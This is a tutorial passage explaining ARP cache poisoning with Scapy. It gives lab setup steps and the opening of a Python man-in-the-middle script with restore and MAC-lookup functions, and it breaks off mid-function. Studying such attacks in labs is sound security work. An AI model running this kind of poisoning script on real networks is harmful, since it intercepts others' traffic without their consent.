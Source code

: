 

-----------
## <a name="arp"></a> ARP Cache Poisoning

I talked about [ARP cache poisoning using command line arpspoof](http://bt3gl.github.io/wiresharking-for-fun-or-profit.html) in my guide about Wireshark. Here we are going to see how to implement similar tool using Scapy.

ARP cache poisoning works by convincing a target machine that we are the gateway, and then convincing the gateway that all traffic should pass through our machine.

Every machine in a network maintains an ARP cache that stores the recent MAC addresses that match to IP addresses on the local network. All we need to do is to poison this cache with controlled entries.

The best way to test this is using a Windows virtual machine (take a look in [this guide I wrote](http://bt3gl.github.io/setting-up-a-playing-environment-with-virtual-machines.html)).

Before the attack, go to the Windows box, open the terminal (```cmd```) and check the IP and gateway IP address with```ipconfig```. Then check the associated  ARP cache entry MAC address with ```arp -a```. We are going to use the former information and we will see the ARP data being changed:

![cyber](http://i.imgur.com/ME069uS.png)

Following is our ARP poisoning script (based on [Black Hat Python](http://www.nostarch.com/blackhatpython)). The script does the following steps:

1. Define constant values, set our interface card, and turn off output.

2. Resolve the gateway and target MAC address.
    * The function **get_mac** use the **srp** method to emit an ARP request to an IP address to resolve the MAC address.

3. Start the poison thread to perform the ARP poisoning attack. This will start the sniffer that captures the packets.
    * The function **poison_target** builds ARP requests for poisoning both the target IP and the gateway (in a loop).

4. Write out the captured packets and restore the network.
    * The function **restore_target** sends out the ARP packets to the network broadcast address to reset the ARP caches of the gateway and target machines.


```python
from scapy.all import *
from scapy.error import Scapy_Exception
import os
import sys
import threading
import signal

INTERFACE       =   'wlp1s0'
TARGET_IP       =   '192.168.1.107'
GATEWAY_IP      =   '192.168.1.1'
PACKET_COUNT    =   1000

def restore_target(gateway_ip, gateway_mac, target_ip, target_mac):
    print '[*] Restoring targets...'
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst='ff:ff:ff:ff:ff:ff', \
        hwsrc=gateway_mac), count=5)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", \
        hwsrc=target_mac), count=5)
    os.kill(os.getpid(), signal.SIGINT)

def get_mac(ip_address):
    response, unanswered = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip_address), \
        timeout=2, retry=10)
    for s, r in response:
```